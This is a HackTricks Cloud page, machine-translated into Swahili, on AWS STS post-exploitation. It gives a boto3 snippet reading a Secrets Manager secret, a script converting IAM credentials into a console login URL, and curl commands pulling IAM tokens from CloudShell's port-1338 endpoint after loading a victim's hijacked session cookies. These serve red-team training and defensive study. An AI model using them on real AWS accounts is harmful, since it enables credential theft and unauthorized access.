 # AWS - STS Post Exploitation

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## STS

Kwa maelezo zaidi:

{% content-ref url="../../aws-security/aws-services/aws-iam-enum.md" %}
[aws-iam-enum.md](../../aws-security/aws-services/aws-iam-enum.md)
{% endcontent-ref %}

#### Njia Mpya Desemba 2024: Pita Mahitaji ya Kiungo cha Web Console, Kwa HTTPS POST Ombi Kwa API ya SecretsManager Moja kwa Moja Pata Siri (Hakuna Kiungo cha Kuingia Au Web Console)

Imewasilishwa jana, kama PR kwa mtihani ujao (ARTE: ex16x41) hata hivyo naona kwamba PR haionekani, labda imesambazwa vibaya, hebu jaribu tena:
Kwa kutumia njia hii unakwepa kabisa mahitaji ya kufungua URL yoyote, kuunda viungo vya kuingia au hata kutumia CLI / Web Console.
Hivyo, tumefanya nini hapa?
Niliandika script hii inayoshirikiana moja kwa moja na API ya AWS Secrets Manager, ni rahisi kabisa na ya moja kwa moja.
Unapokimbia script, inatuma ombi la HTTPS POST kwa mwisho wa AWS Secrets Manager
https://secretsmanager.<region>.amazonaws.com/
Ombi la GetSecretValue linatumwa kama sehemu ya ombi la POST, likithibitishwa kwa saini ya SigV4 (inayosimamiwa na boto3).
Secrets Manager Inashughulikia Ombi:
AWS inathibitisha ombi dhidi ya sera za IAM zilizounganishwa na mtumiaji wako au jukumu (kama tunavyojua tunaweza kuona thamani ya siri tu kama web console)
Ikiwa inaruhusiwa, huduma ya Secrets Manager inarudisha thamani ya siri iliyohitajika katika jibu.
**POC Demo:**
Amri ya CLI AWS ya kupata thamani ya siri haifanyi kazi kwa sababu ya upatikanaji uliozuiwa ->
Hata hivyo, katika picha unaweza kuona urahisi wa njia ya kutoa bendera moja kwa moja kwa kujua kitambulisho cha siri (hii tunaiweka katika hatua ya awali wakati tumeingia na wasifu wa mtumiaji)
![image](https://github.com/user-attachments/assets/d05a1a96-04c0-4404-b4bd-dbfa93c6494b)
Kumbuka: Nadhani njia hii inaweza kutumika kwa ujumla kulingana na hali ikiwa sera inaruhusu (lakini inakwepa vizuizi vya sera ambavyo haviruhusu kupitia CLI)
Hivyo hii inaweza kutumika wakati wowote sera inaruhusu (kama chaguo mbadala la mtihani)
Kumbuka ya Kando: inavutia kuhusu mbinu nyingine ambazo unaweza kutumia kwa kutumia njia hiyo hiyo ya mwingiliano wa moja kwa moja na API ya huduma na sasa AWS CLI, kwa mchakato wowote wa priv esc au baada ya unyakuzi kama hapa.
**Code:**
'''
Python
import boto3

session = boto3.Session(profile_name="lab6")
client = session.client("secretsmanager", region_name="us-east-1")

# Set a custom User-Agent
client.meta.events.register(
'before-call.secretsmanager.GetSecretValue',
lambda params, **kwargs: params['headers'].update({'User-Agent': 'my-custom-tool'})
)

# Retrieve the secret value directly via secretsmanager API
response = client.get_secret_value(SecretId="flag_sts_lab_3")
print(response['SecretString'])
'''

### Kutoka kwa IAM Creds hadi Console

Ikiwa umeweza kupata baadhi ya akreditivu za IAM huenda ukavutiwa na **kuingia kwenye web console** kwa kutumia zana zifuatazo.\
Kumbuka kwamba mtumiaji/jukumu lazima iwe na ruhusa **`sts:GetFederationToken`**.

#### Script ya Kijadi

Script ifuatayo itatumia wasifu wa default na eneo la AWS la default (sio gov na sio cn) kukupa URL iliyosainiwa ambayo unaweza kutumia kuingia ndani ya web console:

{% code overflow="wrap" %}
```bash
# Get federated creds (you must indicate a policy or they won't have any perms)
## Even if you don't have Admin access you can indicate that policy to make sure you get all your privileges
## Don't forget to use [--profile <prof_name>] in the first line if you need to
output=$(aws sts get-federation-token --name consoler --policy-arns arn=arn:aws:iam::aws:policy/AdministratorAccess)

if [ $? -ne 0 ]; then
echo "The command 'aws sts get-federation-token --name consoler' failed with exit status $status"
exit $status
fi

# Parse the output
session_id=$(echo $output | jq -r '.Credentials.AccessKeyId')
session_key=$(echo $output | jq -r '.Credentials.SecretAccessKey')
session_token=$(echo $output | jq -r '.Credentials.SessionToken')

# Construct the JSON credentials string
json_creds=$(echo -n "{\"sessionId\":\"$session_id\",\"sessionKey\":\"$session_key\",\"sessionToken\":\"$session_token\"}")

# Define the AWS federation endpoint
federation_endpoint="https://signin.aws.amazon.com/federation"

# Make the HTTP request to get the sign-in token
resp=$(curl -s "$federation_endpoint" \
--get \
--data-urlencode "Action=getSigninToken" \
--data-urlencode "SessionDuration=43200" \
--data-urlencode "Session=$json_creds"
)
signin_token=$(echo -n $resp | jq -r '.SigninToken' | tr -d '\n' | jq -sRr @uri)



# Give the URL to login
echo -n "https://signin.aws.amazon.com/federation?Action=login&Issuer=example.com&Destination=https%3A%2F%2Fconsole.aws.amazon.com%2F&SigninToken=$signin_token"
```
{% endcode %}

#### aws\_consoler

Unaweza **kuunda kiungo cha konsoli ya wavuti** na [https://github.com/NetSPI/aws\_consoler](https://github.com/NetSPI/aws\_consoler).
```bash
cd /tmp
python3 -m venv env
source ./env/bin/activate
pip install aws-consoler
aws_consoler [params...] #This will generate a link to login into the console
```
{% hint style="warning" %}
Hakikisha mtumiaji wa IAM ana ruhusa ya `sts:GetFederationToken`, au toa jukumu la kuchukua.
{% endhint %}

#### aws-vault

[**aws-vault**](https://github.com/99designs/aws-vault) ni chombo cha kuhifadhi na kufikia kwa usalama akidi za AWS katika mazingira ya maendeleo.
```bash
aws-vault list
aws-vault exec jonsmith -- aws s3 ls # Execute aws cli with jonsmith creds
aws-vault login jonsmith # Open a browser logged as jonsmith
```
{% hint style="info" %}
Unaweza pia kutumia **aws-vault** kupata **session ya console ya kivinjari**
{% endhint %}

#### Kutoka Console hadi IAM Creds

[**Iligunduliwa awali katika chapisho hili**](https://blog.christophetd.fr/retrieving-aws-security-credentials-from-the-aws-console/), Ikiwa utafanikiwa kuingilia baadhi ya ufikiaji wa console ya wavuti (labda ulipora vidakuzi na huwezi kufikia folda ya .aws), unaweza kupata baadhi ya akreditivu za token za IAM kwa ajili ya mtumiaji huyo kupitia **CloudShell**.

CloudShell inatoa akreditivu za IAM kupitia **kiunganishi kisichoorodheshwa kwenye bandari 1338**. Baada ya kupakia vidakuzi vya session kutoka kwa mwathirika kwenye kivinjari chako, unaweza kuhamasisha CloudShell na kutoa amri zifuatazo ili kupata akreditivu za IAM.
```bash
TOKEN=$(curl -X PUT localhost:1338/latest/api/token -H "X-aws-ec2-metadata-token-ttl-seconds: 60")
curl localhost:1338/latest/meta-data/container/security-credentials -H "X-aws-ec2-metadata-token: $TOKEN"
```
{% hint style="success" %}
Jifunze na fanya mazoezi ya AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Jifunze na fanya mazoezi ya GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Angalia [**mpango wa usajili**](https://github.com/sponsors/carlospolop)!
* **Jiunge na** 💬 [**kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au [**kikundi cha telegram**](https://t.me/peass) au **tufuatilie** kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu za hacking kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>
{% endhint %}
